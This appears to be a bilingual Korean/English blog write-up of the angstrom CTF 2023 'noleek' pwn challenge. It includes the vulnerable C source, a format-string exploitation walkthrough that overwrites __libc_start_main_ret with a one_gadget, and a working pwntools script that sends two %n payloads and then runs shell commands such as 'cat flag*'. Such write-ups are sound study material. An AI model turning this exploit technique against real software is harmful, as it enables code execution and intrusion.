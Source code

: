```yaml
---
title: (CTF) angstrom CTF 2023 noleek writeup
categories: [CTF]
tags : [writeup]
date : 2023-04-27 13:29:42 +0900
author:
    name: 
    link: 
toc: true
comments: false
mermaid: false
math: false
---
```


Date: April 27, 2023
team: ST4RT

# noleek - PWN

```c
#include <stdio.h>
#include <stdlib.h>

#define LEEK 32

void cleanup(int a, int b, int c) {}

int main(void) {
    setbuf(stdout, NULL);
    FILE* leeks = fopen("/dev/null", "w");
    if (leeks == NULL) {
        puts("wtf");
        return 1;
    }
    printf("leek? ");
    char inp[LEEK];
    fgets(inp, LEEK, stdin);
    fprintf(leeks, inp);
    printf("more leek? ");
    fgets(inp, LEEK, stdin);
    fprintf(leeks, inp);
    printf("noleek.\\n");
    cleanup(0, 0, 0);
    return 0;
}

```

주어진 소스코드를 보면, fprintf 함수로 FSB 를 두 번 사용할 수 있다. 하지만 `/dev/null` 파일의 fd 에 출력해서, 출력을 확인할 수는 없다.
확인하려면, gdb 에서 leeks 변수의 버퍼를 확인하면 된다.

스택에 있는 값을 잘 활용해서, `__libc_start_main_ret` 을 `one_gadget` 으로 덮으면 된다. cleanup 함수를 호출해서 원가젯 조건을 맞춰주는 것을 볼 수 있다.

In the given source code, we can use FSB twice with the fprintf function. However, we can't see the output by printing to fd in the `/dev/null` file.
To do so, you can check the buffer of the leeks variable in gdb.

Using the value on the stack,  overwrite `__libc_start_main_ret` with `one_gadget`. You can see that the cleanup function is called to condition the original gadget.

- `%1$p` -> `rsp`
- `%12$p` -> `__libc_start_main_ret`
- `%16$p` -> `rsp+XX` -> `rsp+YY`
input `%p %p ...` and checked the index in gdb
exploit flow 는 다음과 같다.
1. overwrite stack pointer (rsp+YY) with rsp+56 to make rsp+XX point `__libc_start_main_ret`
2. overwrite `__libc_start_main_ret` with __libc_start_main_ret + (distance to one_gadget) using rsp+XX (pointing rsp+8)

rsp+XX -> %46$p ( local != server, check exploit file )

```python
from pwn import *

#r = process("./noleek")
r = remote("challs.actf.co",31400)
context.log_level='debug'

#### Local (Ubuntu22.04)
# 12=libc
# 16=stack pointer
$ 46=stack
####

#### Debian Docker
# libc = 0x23d0a
# one_gadget = 0xc9620
# diff = 678166
# 13 = stack pointer
# 12 = libc
# 42 = stack
####
pay1 = "%*1$c%56c%13$n"
pay2 = "%*12$c%678166c%42$n"

r.sendlineafter("? ",pay1)
r.sendlineafter("? ",pay2)

r.sendline("id")
r.sendline("id")
r.sendline("ls")
r.sendline("cat flag*")
r.interactive()

```

vfprintf_internal 을 분석해보면, %n 으로 write 할 때 int 값을 사용한다. 따라서 스택주소 4byte MSB!=1 && libc주소 4byte MSB !=1 을 만족해야 정상적인 값이 덮힌다.

또한, Ubuntu22.04, 문제서버에서 사용하는 Debian 스택구성이 살짝 달라서 Debian Docker 를 따로 빌드한 뒤 gdb 설치 후 디버깅해서 인덱스를 알아냈다.

Analyzing vfprintf_internal, it uses int when writing to %n. Therefore, the stack address 4byte MSB!=1 && libc address 4byte MSB !=1 must be satisfied to overwrite the correct value. So it requires some bruteforce ( 64 / 256 )

Also, the Debian (Used in the server) stack is a little different from my local environment, so I built Debian Docker separately, installed gdb, and debugged to find the index.